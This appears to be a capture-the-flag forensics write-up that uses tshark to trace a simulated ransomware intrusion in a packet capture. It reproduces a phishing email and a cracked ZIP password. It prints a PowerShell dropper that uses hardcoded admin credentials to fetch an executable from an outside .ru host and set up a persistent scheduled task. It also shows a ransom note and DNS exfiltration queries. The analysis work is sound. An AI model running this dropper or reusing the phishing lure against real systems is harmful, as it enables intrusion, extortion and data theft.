



# Forensics - Alice In The Ransom Land

````bash
tshark -r chall.pcapng -F pcap -w chall.pcap
````

````bash
tshark -r chall.pcap -Y "tcp.stream eq 2"

# 468 192.168.57.17  10.963512 192.168.57.2 TCP 66 54731 → 8025 [SYN] Seq=0 Win=65535 Len=0 MSS=1460 WS=256 SACK_PERM=1
# 469 192.168.57.2  10.963856 192.168.57.17 TCP 66 8025 → 54731 [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460 SACK_PERM=1 WS=128
# 470 192.168.57.17  10.964195 192.168.57.2 TCP 60 54731 → 8025 [ACK] Seq=1 Ack=1 Win=65280 Len=0
# 474 192.168.57.17  10.991784 192.168.57.2 HTTP 616 GET /api/v1/messages/h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp/download HTTP/1.1 
# 475 192.168.57.2  10.992096 192.168.57.17 TCP 60 8025 → 54731 [ACK] Seq=1 Ack=563 Win=64128 Len=0
# 476 192.168.57.2  10.994156 192.168.57.17 HTTP/IMF 1281 subject: Internal Helpdesk Tool =?utf-8?b?4oCT?= Alice Corp, from: it-support@alices.corp,  (text/plain)
# 477 192.168.57.17  11.034661 192.168.57.2 TCP 60 54731 → 8025 [ACK] Seq=563 Ack=1228 Win=64256 Len=0
# 513 192.168.57.2  26.137956 192.168.57.17 TCP 60 [TCP Keep-Alive] 8025 → 54731 [ACK] Seq=1227 Ack=563 Win=64128 Len=0
#  597 192.168.57.2  41.249170 192.168.57.17 TCP 60 [TCP Keep-Alive] 8025 → 54731 [ACK] Seq=1227 Ack=563 Win=64128 Len=0
#  629 192.168.57.2  56.361004 192.168.57.17 TCP 60 [TCP Keep-Alive] 8025 → 54731 [ACK] Seq=1227 Ack=563 Win=64128 Len=0
````

````bash
tshark -r chall.pcap -qz follow,tcp,ascii,2
````

````text
To: natacha.routi@alice.corp
Content-Transfer-Encoding: quoted-printable
Received: from mail.alice.corp by Alice.corp (Alice-Corp)
          id h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp; Sun, 22 Jun 2025 09:27:47 +0200
Subject: Internal Helpdesk Tool =?utf-8?b?4oCT?= Alice Corp
Content-Type: text/plain; charset="utf-8"
MIME-Version: 1.0
Message-ID: h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp
Return-Path: <it-support@alices.corp>
From: it-support@alices.corp

Hello,

The IT department has published a new internal version of the Helpdesk tool. 

Please download it using the link below:

Download link: https://www.dropbox.com/scl/fi/n13dckvawgi8rf50qr6ij/helpdesk.zip?rlkey=dlnvxltgup1wnlesbuiey2fwe&e=2&st=98676emp&dl=1

Note: The archive is password protected. 
It is the common password used internally at Alice Corp to secure ZIP files.

Do not share this file outside the internal network.

Best regards, 
IT Support
Alice Corp
````

````bash
$pkzip2$2*1*1*0*8*24*4c55*3bbb*0e2bd1fdaacaccb5e7f77397c54f02b2ad0af80984d4cc327a924fc86c1003091266b602*2*0*cd*178*d7b35ed0*0*2e*8*cd*d7b3*3d14*2866e7dce3807d99f0ff13582c62fd91def9b7af60c30116d9bbdf2f2c2eddea134e1d43f3cc589052df77309b0592478282665b1fb3a0c912c0d36abbc4922e3126d5e2cead183266350e6f174d37b4bebf797f60cf969bf708356f852b889d00d2c42afd39826780d0396e4dd31e4a5d27b22b3bb6b36d4135a8e32a4b4f4b17e42c1ce0995357a6a0643e89255d1e27d061a9d362eaa780119021ec7ae938bddfd12fb016b32f00753bde93d76bf7681cb2cc045387f1d27c973aa4778dc9174ada66164dcbb09d4ea74d49*$/pkzip2$
````

<p aling="center"></p>

````bash
!!Miley24$$
````

````bash
md5sum helpdesk.exe

#8d8b36683ed095a7eebe4e8c70141bfc
````

````bash
tshark -r chall.pcap -qz follow,tcp,ascii,33
````

````text
GET /deploy-malware.ps1 HTTP/1.1
accept: */*
host: ykfqaqa.ru:8000

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.12.3
Date: Sun, 22 Jun 2025 07:50:56 GMT
Content-type: application/octet-stream
Content-Length: 6395
Last-Modified: Sun, 22 Jun 2025 07:36:39 GMT

[***] some powershell lines encoded
````

````powershell
$User = "alice-corp\administrateur"
$PasswordPlain = "admin123sY*-+"
$Pass = ConvertTo-SecureString $PasswordPlain -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential($User, $Pass)

$RemoteHost = "192.168.57.200"

$RemoteCommand = {
    $exeUrl = "http://susqoUh.ru:8000/susqoUh.exe"
    $exePath = "C:\Windows\Temp\helpdesk.exe"
    $taskName = "DontTouchMe"

    try {
        Invoke-WebRequest -Uri $exeUrl -OutFile $exePath -UseBasicParsing

        $action = New-ScheduledTaskAction -Execute $exePath
        $trigger = New-ScheduledTaskTrigger -AtStartup
        $settings = New-ScheduledTaskSettingsSet -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries

        Register-ScheduledTask -TaskName $taskName `
            -Action $action `
            -Trigger $trigger `
            -User "alice-corp\administrateur" `
            -Password "admin123sY*-+" `
            -Settings $settings `
            -RunLevel Highest `
            -Force

        Start-ScheduledTask -TaskName $taskName

    } catch {
        Write-Host ""
    }
}

try {
    Invoke-Command -ComputerName $RemoteHost -Credential $Cred -ScriptBlock $RemoteCommand -ErrorAction Stop
} catch {
    Write-Host ""
}
````

````bash
tshark -r chall.pcap -Y "tcp.stream eq 37"

# 2498 192.168.57.200 140.306959 192.168.1.132 TCP 66 63008 → 8000 [SYN, ECN, CWR] Seq=0 Win=64240 Len=0 MSS=1460 WS=256 SACK_PERM=1
# 2499 192.168.1.132 140.307703 192.168.57.200 TCP 60 8000 → 63008 [SYN, ACK] Seq=0 Ack=1 Win=32768 Len=0 MSS=1460
# 2500 192.168.57.200 140.307704 192.168.1.132 TCP 60 63008 → 8000 [ACK] Seq=1 Ack=1 Win=64240 Len=0
# 2501 192.168.57.200 140.309456 192.168.1.132 HTTP 224 GET /susqoUh.exe HTTP/1.1 
# 2502 192.168.57.200 140.375459 192.168.1.132 TCP 224 [TCP Retransmission] 63008 → 8000 [PSH, ACK] Seq=1 Ack=1 Win=64240 Len=170
# 2503 192.168.1.132 140.375459 192.168.57.200 TCP 60 8000 → 63008 [ACK] Seq=1 Ack=171 Win=32598 Len=0
# 2504 192.168.1.132 140.442244 192.168.57.200 TCP 259 HTTP/1.0 200 OK  [TCP segment of a reassembled PDU]
````

````bash
tshark -r chall.pcap -qz follow,tcp,ascii,37 | head -n 100
````

````text
GET /susqoUh.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; fr-FR) WindowsPowerShell/5.1.20348.558
Host: susqouh.ru:8000
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.9
Date: Sun, 22 Jun 2025 07:50:58 GMT
Content-type: application/x-msdownload
Content-Length: 2334208
Last-Modified: Sun, 22 Jun 2025 07:44:38 GMT

[***] Some bytes
````

````text
5d820e7bbb4e4bc266629cadfa474365
````

<p aling="center"></p>

<p aling="center"></p>

````bash
strings susqoUH.exe | grep -C 20 'ransomware'
````

````text
message.txt---[ SPHINXLOCK RANSOMWARE GROUP ]---
Your network has been compromised and all critical files have been encrypted.
This includes documents, databases, backups, and internal project files.
We are SPHINXLOCK 
 specializing in corporate data extraction and ransomware-as-a-service.
Do NOT attempt to recover your files using third-party tools. Doing so will permanently corrupt them.
>>> How to restore your files:
1. Purchase 5000 USD in Monero (XMR) cryptocurrency.
2. Send the exact amount to the following wallet address:
   84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq
3. After payment, email us at:
   sphinxhelpdesk@sphinxlock.ru
   Include in your message:
   - Your unique victim ID: #SPX-3041B
   - Proof of payment
   - 1 encrypted files (max 1MB) for free decryption test
>>> WARNING:
If you fail to pay within 72 hours, we will:
- Start posting confidential files.
- Sell sensitive corporate data.
This is your only opportunity to prevent a total data breach.
We are watching.
 SPHINXLOCK
````

````bash
tshark -r chall.pcap -Y "dns && ip.src == 192.168.57.200 && dns.qry.name" -T fields -e dns.qry.name | uniq
````

````text
file0-0-d2373cdd6d999679668b0d4587abbeb325bda034.yinxuqab.ru
file0-1-3841f3cdb1e4ec8f7b597f75ddde462a9bbefb82.yinxuqab.ru
file0-2-8318f3bc16af0f52dce3ffbfa34670557bf89ee9.yinxuqab.ru
file0-3-8ce45da82eb45abd320c4b0a143e2569a6bd8a8f.yinxuqab.ru
file0-4-8d7c0e52a76ff4b4505e82df2c204632.yinxuqab.ru
file0-complete.yinxuqab.ru
id-0-235350582d3330343142.yinxuqab.ru
id-complete.yinxuqab.ru
key-0-3de090e7059fb1d7f77dec50078405c855e3f1a4.yinxuqab.ru
key-1-6589e72db2602c7d7e8403b8.yinxuqab.ru
key-complete.yinxuqab.ru
````

````bash
tshark -r chall.pcap -Y "dns && ip.src == 192.168.57.200 && dns.qry.name" -T fields -e dns.qry.name | uniq | grep file | awk -F- '{print $3}' | awk -F. '{print $1}' | tr -d '\n' > enc_hex.txt
````
